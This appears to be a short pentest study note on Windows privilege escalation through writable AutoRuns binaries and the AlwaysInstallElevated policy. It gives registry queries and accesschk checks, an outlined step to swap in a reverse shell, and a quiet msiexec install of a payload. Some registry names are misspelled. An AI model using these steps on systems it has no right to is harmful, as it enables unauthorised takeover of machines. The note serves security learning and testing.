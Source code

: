```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### AutoRuns
- Startup apps or "AutoRuns" are configures in the registry.
- If the autoruns executable is wriable and we have the privilege to restart the system, we can place the reverse shell and restart the system to get a shell
```powershell
# Get a list of Autorun Programs
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Check for each binary using accesshck
.\accesschk -quv "C:\Program Files\program.exe"

# overwrite with reverse shell and restart the service
SHELL!
```

### AlwaysInstalledElevated
- MSI are installer files that are used to install application
- Runs with the permission of the user executing the file
- Windows allows for these installers to be run with elevated privileges.
- Two Registry requirements:
```powershell
"AllwaysInstallElevated" should be 0x1 for
# Local Machine
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
# Current User
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

# Can be queried using reg command
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AllwaysInstalledElevated

# Gerenerate payload with msi format

# install with msiexec
msiexec /quiet /qn /i reverse.exe
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
